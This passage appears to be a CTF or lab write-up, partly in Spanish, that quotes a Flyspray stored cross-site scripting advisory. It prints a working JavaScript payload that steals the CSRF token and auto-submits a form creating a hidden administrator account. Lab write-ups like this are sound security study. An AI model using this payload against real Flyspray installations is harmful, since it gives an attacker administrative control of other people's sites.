 Description :

A vulnerability has been discovered in Flyspray , which can be
exploited by malicious people to conduct cross-site scripting attacks. Input
passed via the 'real_name' parameter to '/index.php?do=myprofile' is not
properly sanitised before being returned to the user. This can be exploited
to execute arbitrary HTML and script code in a user's browser session in
context of an affected site.

The script is executed on the parameter page AND on any page that allow the
user to put a comment.


This XSS vector allow to execute scripts to gather the CSRF token

and submit a form to create a new admin


~~~
var tok = document.getElementsByName('csrftoken')[0].value;

var txt = '<form method="POST" id="hacked_form" action="index.php?do=admin&area=newuser">'
txt += '<input type="hidden" name="action" value="admin.newuser"/>'
txt += '<input type="hidden" name="do" value="admin"/>'
txt += '<input type="hidden" name="area" value="newuser"/>'
txt += '<input type="hidden" name="user_name" value="hacker"/>'
txt += '<input type="hidden" name="csrftoken" value="' + tok + '"/>'
txt += '<input type="hidden" name="user_pass" value="12345678"/>'
txt += '<input type="hidden" name="user_pass2" value="12345678"/>'
txt += '<input type="hidden" name="real_name" value="root"/>'
txt += '<input type="hidden" name="email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="verify_email_address" value=" root@root.com"/>'
txt += '<input type="hidden" name="jabber_id" value=""/>'
txt += '<input type="hidden" name="notify_type" value="0"/>'
txt += '<input type="hidden" name="time_zone" value="0"/>'
txt += '<input type="hidden" name="group_in" value="1"/>'
txt += '</form>'

var d1 = document.getElementById('menu');
d1.insertAdjacentHTML('afterend', txt);
document.getElementById("hacked_form").submit();
~~~

Así que intentamos, hosteamos un server con el script de javascript

![Pasted image 20231206150812.png](https://github.com/Hamibubu/Writeups/blob/main/Symphonos%206.1/Pasted%20image%2020231206150812.png?raw=true)
